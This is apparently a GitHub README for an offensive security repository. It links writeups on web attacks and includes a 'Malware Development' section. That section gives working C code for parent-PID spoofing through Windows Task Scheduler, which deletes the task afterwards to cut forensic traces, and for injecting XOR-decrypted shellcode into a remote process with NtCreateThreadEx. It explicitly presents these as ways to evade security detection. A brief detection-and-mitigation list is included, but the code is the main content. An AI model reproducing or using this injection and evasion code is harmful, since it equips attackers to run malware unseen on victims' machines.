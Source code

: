 # Offensive Security Writeups by Samir  

This repository contains various writeups and research documents on offensive security topics, including web vulnerabilities, injection techniques, and memory exploitation. These documents are continuously updated with new research and insights.  

## 📜 Available Writeups  

1. [How CL.TE Request Smuggling Works](./How%20CL.TE%20Request%20Smuggling%20Works.pdf) – Explanation of CL.TE request smuggling attacks and their impact.  
2. [ORM Injection](./ORM%20Injection.pdf) – A deep dive into Object-Relational Mapping (ORM) injection techniques.  
3. [Vulnerabilities](./Vulnerbilities.pdf) – General overview of common security vulnerabilities and their exploitation.  
4. [Why and How Other Users' Requests Are Intercepted](./Why%20and%20How%20Other%20Users%27%20Requests%20Are%20Intercepted.pdf) – Research on request interception and session hijacking.  
5. [XXE Injection](./XXE%20Injection.pdf) – A breakdown of XML External Entity (XXE) attacks and mitigation techniques.
6. [Exploiting Race Condition](./EXPLOITING%20RACE%20CONDITION.pdf) - race condition occurs when multiple threads or processes access shared resources simultaneously in an unsynchronized manner, leading to unpredictable behavior or security vulnerabilities.


## 💀 **Malware Development – Parent PID Spoofing via Task Scheduler**

### 🔍 **Technique Explanation**
This technique abuses **Windows Task Scheduler** to create a scheduled task that runs a **malicious payload** while spoofing the **Parent Process ID (PPID)**. This allows malware to execute under a **legitimate process**, such as `explorer.exe`, making it harder to detect.

### 🚀 **How It Works:**
1. **Task Scheduler Object Creation**
   - Initializes the **COM Library**.
   - Retrieves the **Task Scheduler** object.

2. **Creating a Task**
   - A new scheduled task named `ExecME` is created.
   - The task is set to execute `explorer.exe` (which can be modified to run a payload).
   - Parameters and flags are configured for execution.

3. **Saving & Executing the Task**
   - The task is saved to disk and immediately executed.
   - This **bypasses process monitoring tools**, as the malicious process inherits the **legitimate PPID** of `explorer.exe`.

4. **Cleanup & Evasion**
   - The script **deletes the task** after execution, reducing forensic traces.

### 🛡 **Detection & Mitigation:**
✔ Monitor **Windows Event Logs** (Event ID 4698 – Scheduled Task Creation).
✔ Restrict **Task Scheduler permissions** to prevent unauthorized task creation.
✔ Use **behavior-based detection** for suspicious scheduled tasks.

---

## 📝 **Code: Parent PID Spoofing using Task Scheduler**

```c
int spoof_ppid_with_scheduler() {
    HRESULT hr = S_OK;
    ITaskScheduler *pITS;

    // Initialize COM library
    hr = CoInitialize(NULL);
    if (FAILED(hr)) {
        printf("[!] Failed to initialize COM library. Error code = 0x%x\n", hr);
        return -1;
    }

    // Get Task Scheduler object
    hr = CoCreateInstance(CLSID_CTaskScheduler, NULL, CLSCTX_INPROC_SERVER, IID_ITaskScheduler, (void **)&pITS);
    if (FAILED(hr)) {
        printf("[!] Failed to get Task Scheduler object. Error code = 0x%x\n", hr);
        CoUninitialize();
        return -1;
    }

    LPCWSTR pwszTaskName = L"ExecME";
    ITask *pITask;
    IPersistFile *pIPersistFile;

    // Create new task
    hr = pITS->NewWorkItem(pwszTaskName, CLSID_CTask, IID_ITask, (IUnknown**)&pITask);
    if (FAILED(hr)) {
        printf("[!] Failed creating new task. Error code = 0x%x\n", hr);
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    // Set task parameters
    pITask->SetComment(L"Executing payload");
    pITask->SetApplicationName(L"C:\\Windows\\System32\\explorer.exe");
    pITask->SetWorkingDirectory(L"C:\\Windows\\System32");
    pITask->SetParameters(L"payload_parameters_here");
    pITask->SetFlags(TASK_FLAG_RUN_ONLY_IF_LOGGED_ON);

    // Save the task
    hr = pITask->QueryInterface(IID_IPersistFile, (void **)&pIPersistFile);
    if (FAILED(hr)) {
        printf("[!] Failed saving task. Error code = 0x%x\n", hr);
        pITask->Release();
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    hr = pIPersistFile->Save(NULL, TRUE);
    pIPersistFile->Release();
    if (FAILED(hr)) {
        printf("[!] Failed saving task to disk. Error code = 0x%x\n", hr);
        pITask->Release();
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    // Run the task
    hr = pITask->Run();
    pITask->Release();
    if (FAILED(hr)) {
        printf("[!] Failed to run task. Error code = 0x%x\n", hr);
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    // Clean up
    pITS->Delete(pwszTaskName);
    pITS->Release();
    CoUninitialize();

    printf("[+] Task Scheduler spoofing successful.\n");
    return 0;
}
```

---

## 🏴 **Upcoming Research & Updates**
✔ New techniques in **malware evasion**.
✔ More **offensive security writeups**.
✔ Research on **custom payload execution**.
✔ Advanced **Windows & Linux attack techniques**.
### Injecting Shellcode into a Remote Process

```c
int inject_shellcode(HANDLE processHandle) {
    PVOID remoteBuf;
    SIZE_T allocSize = encrypted_shellcode_len;

    // Allocate memory in the target process
    NTSTATUS status = NtAllocateVirtualMemory(processHandle, &remoteBuf, 0, &allocSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!NT_SUCCESS(status)) {
        printf("[!] Failed to allocate memory in target process.\n");
        return -1;
    }

    // Decrypt shellcode
    unsigned char decrypted_shellcode[sizeof(encrypted_shellcode)];
    unsigned char expanded_key[EXPANDED_KEY_LEN];
    expand_key(key, strlen(key), expanded_key, EXPANDED_KEY_LEN);
    memcpy(decrypted_shellcode, encrypted_shellcode, sizeof(encrypted_shellcode));
    xor_decrypt(decrypted_shellcode, sizeof(encrypted_shellcode), expanded_key, EXPANDED_KEY_LEN, iv, IV_LEN);

    // Write memory
    SIZE_T bytesWritten = 0;
    status = NtWriteVirtualMemory(processHandle, remoteBuf, decrypted_shellcode, sizeof(decrypted_shellcode), &bytesWritten);
    if (!NT_SUCCESS(status)) {
        printf("[!] Failed to write memory in target process.\n");
        return -1;
    }

    // Execute shellcode
    HANDLE hThread;
    status = NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, processHandle, remoteBuf, 0, NULL, NULL, NULL, NULL, NULL);
    if (!NT_SUCCESS(status)) {
        printf("[!] Failed to create thread in target process.\n");
        return -1;
    }

    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

**Explanation:** This function injects and executes shellcode inside a remote process:

1. **Allocate Memory in Target Process:** Uses `NtAllocateVirtualMemory` to reserve memory in the target process.
2. **Decrypt Shellcode:** The encrypted shellcode is decrypted using XOR-based decryption with an expanded key.
3. **Write Decrypted Shellcode to Target Process:** The `NtWriteVirtualMemory` function writes the shellcode into the allocated memory.
4. **Execute Shellcode in a New Thread:** `NtCreateThreadEx` is used to create a remote thread inside the target process, executing the shellcode.
5. **Wait for Execution Completion:** `WaitForSingleObject` ensures the execution is completed before returning.

This method enables process injection while avoiding common security detections.
